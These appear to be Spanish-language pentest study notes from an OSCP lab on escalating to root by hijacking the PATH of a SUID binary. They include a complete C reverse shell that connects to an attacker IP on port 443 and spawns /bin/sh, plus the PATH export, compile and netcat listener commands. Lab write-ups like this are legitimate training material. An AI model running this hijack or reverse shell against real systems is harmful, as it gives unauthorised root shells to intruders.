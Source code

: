 
## DESCRIPTION

Basicamente es que nos encontremos un fichero con el SUID que lo pueda ejecutar un usuario con el que tengamos acceso. Miramos a ver si llama a algun ejecutable o script que vamos a sustuir o bien a cambiar el path que lo apunta.

#### Mas información
* 


## EXPLOITATION

### OPTION 1: editando el PATH

Localizamos en el directorio de John un binario con el SUID, lo que significa que cualquiera que lo ejecute se ejecutará como root:

![[Pasted image 20230605194800.png]]

Miramos las cadenas de texto que tiene:

 strings RESET_PASSWD 
 ![[Pasted image 20230605194730.png]]
 
 Vemos que llama a chpasswd que es un binario que se encuentra en /usr/sbin:
 
 
 Y el PATH del usuario es el siguiente
 ![[Pasted image 20230605194727.png]]
 
 Vamos a cambiar el path a un directorio donde tengamos permisos y vamos a compilar un binario con el mismo nombre y que contenga una reverse shell. DE esta forma cuando ejecutemos RESET_PASSWD -> este ejecutara chpasswd que se encontrara en nuestro PATH es decir una recerse shell:
 
 export PATH=/usr/bin:/tmp
![[Pasted image 20230605194721.png]]


En tmp creamos un script en C con el siguiente código (https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#c)

primero comprobamos que tenga el compilador:
![[Pasted image 20230605194716.png]]
````


john@oscp:~$ cat /tmp/shell.c 
#include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>

int main(void){
    int port = 443;
    struct sockaddr_in revsockaddr;

    int sockt = socket(AF_INET, SOCK_STREAM, 0);
    revsockaddr.sin_family = AF_INET;       
    revsockaddr.sin_port = htons(port);
    revsockaddr.sin_addr.s_addr = inet_addr("192.168.45.180");

    connect(sockt, (struct sockaddr *) &revsockaddr, 
    sizeof(revsockaddr));
    dup2(sockt, 0);
    dup2(sockt, 1);
    dup2(sockt, 2);

    char * const argv[] = {"/bin/sh", NULL};
    execve("/bin/sh", argv, NULL);

    return 0;       
}
```` 


Modificamos los campos subrayados:


![[Pasted image 20230605194710.png]]


Compilamos: gcc /tmp/shell.c --output chpasswd

Nos ponemos a la escucha en el puerto 443:
 nc -lvnp 443 

Y ahora ejecutamos RESET_PASSWD con el usuario john:

![[Pasted image 20230605194705.png]]




## MACHINES

* Hack The Box: 
* OSCP: OSCP A

**!!NOTA IMPORTANTE!!** 